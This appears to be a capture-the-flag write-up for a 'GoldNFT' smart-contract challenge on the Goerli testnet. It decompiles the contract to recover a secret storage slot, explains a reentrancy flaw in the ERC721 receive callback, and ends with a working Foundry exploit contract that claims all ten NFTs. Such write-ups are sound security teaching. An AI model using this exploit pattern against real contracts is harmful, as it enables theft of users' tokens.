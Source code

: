 # Find out what the constructor of `GoldNFT` does

The creation code is the call data of the transaction that creates the contract. Copy it from etherscan and decompile using the [decompiler](https://library.dedaub.com/decompile), it shows:
```solidity
function __function_selector__() public payable { 
    MEM[64] = 128;
    require(!msg.value);
    STORAGE[keccak256(msg.sender)] = 1;
    return MEM[0 len 535];
}
```
So this is what the constructor does: 
- Store the value of `keccak256(msg.sender)` to storage slot 1, which is `keccak256(0x302fF1c5F7e264b792876B9456F42de8dF299863)`

We can also verify this on [playground](https://www.evm.codes/playground) by single stepping through, it does that with opcodes `CALLER` and `SHA3`.

# Runtime code
The runtime code can be obtained from [etherscan](https://goerli.etherscan.io/address/0xe43029d90B47Dd47611BAd91f24F87Bc9a03AEC2#code), the decompiler shows the function `read` as:
```solidity 
function read(bytes32 varg0) public payable { 
    require(4 + (msg.data.length - 4) - 4 >= 32);
    require(varg0 == varg0);
    return STORAGE[varg0];
}
```
The argument is the slot, and it checks if the `storage[slot]` is non-zero, the only non-zero value was set in the constructor, so the slot argument should be `keccak256(0x302fF1c5F7e264b792876B9456F42de8dF299863)`

# Reentrancy
So far we can call `takeONEnft` to get 1 NFT, but it can be called only once, we need to use the re-entrancy to call it 9 more times.
When an NFT is transfered and if the target is a contract, a function callback `onERC721Received` is called. We use this callback to call `takeONEnft` again and again to get all 10 NFTs.

# POC (Foundry)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "forge-std/Test.sol";
import "../src/GoldNFT.sol";

import {IERC721Receiver} from "lib/openzeppelin-contracts/contracts/token/ERC721/IERC721Receiver.sol";

contract GoldNFTHack is Test {
    GoldNFT nft;
    HackGoldNft nftHack;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() external {
        vm.createSelectFork("goerli", 8591866); 
        nft = new GoldNFT();
    }


    function test_Attack() public {
        vm.startPrank(hacker);
        // solution

		nftHack = new HackGoldNft(address(nft));

		nftHack.get10Nft();

		// end of solution
        assertEq(nft.balanceOf(hacker), 10);
    }
}

contract HackGoldNft is IERC721Receiver {
	bytes32 slot;
	address hacker;
    GoldNFT nft;

	constructor(address _nft) {
		hacker = msg.sender;
		nft = GoldNFT(_nft);

		address creator = 0x302fF1c5F7e264b792876B9456F42de8dF299863;
		slot = keccak256(abi.encode(creator));
	}
	function get10Nft() external {
		nft.takeONEnft(slot);
	}

	function onERC721Received(
		address, address to, uint tokenId, bytes memory 
	) public returns (bytes4 ) {
		// send this nft to hacker
		nft.transferFrom(address(this), hacker, tokenId);

		// do it 9 more times
		if(nft.balanceOf(hacker) < 10) {
			nft.takeONEnft(slot);
		}

		// must return this selector as described here:
		//   https://github.com/OpenZeppelin/openzeppelin-contracts/blob/d59306bd06a241083841c2e4a39db08e1f3722cc/contracts/token/ERC721/IERC721Receiver.sol#L16
		return IERC721Receiver.onERC721Received.selector;
	}
}
```
